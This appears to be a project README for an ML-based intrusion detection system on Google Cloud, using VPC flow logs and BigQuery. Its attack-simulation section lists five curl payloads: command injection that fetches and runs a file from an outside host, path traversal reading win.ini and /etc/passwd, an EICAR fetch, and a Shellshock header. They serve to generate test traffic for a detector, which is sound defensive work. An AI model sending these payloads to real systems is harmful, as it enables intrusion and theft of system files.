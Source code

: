 # ML-based-real-time-intrusion-detection-system for cloud computing environments
Creating a ML based real-time intrusion detection system using Google Clouds Compute Engine


 System Model
The system model consist of a VM setup using Google Cloud Platform, the VM is an Apache Server that is a web application. The Virtual Private Cloud (VPC) network for the VM is configured to enable flow (audit) logs (both HTTPS and HTTP traffic) of the VM, the VPC plays the role of a packet sniffer for logs sent and received from the VM. The protocol used is TCP port 80,22. A sink is created to capture and store the mirrored packets from the VM, which are transformed into a BigQuery dataset. In the BigQuery database a custom SQL command is executed querying the following fields timestamp, source_ip, destination_ip, bytes_sent, src_port, dest_port, protocol, packets_sent which will be used for the IDS.

Attack Simulation using Powershell
Attack 1
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"

Attack 2
curl http://192.168.10.20/?item=../../../../WINNT/win.ini

Attack 3
curl http://192.168.10.20/eicar.file

Attack4
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd

Attack5
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical


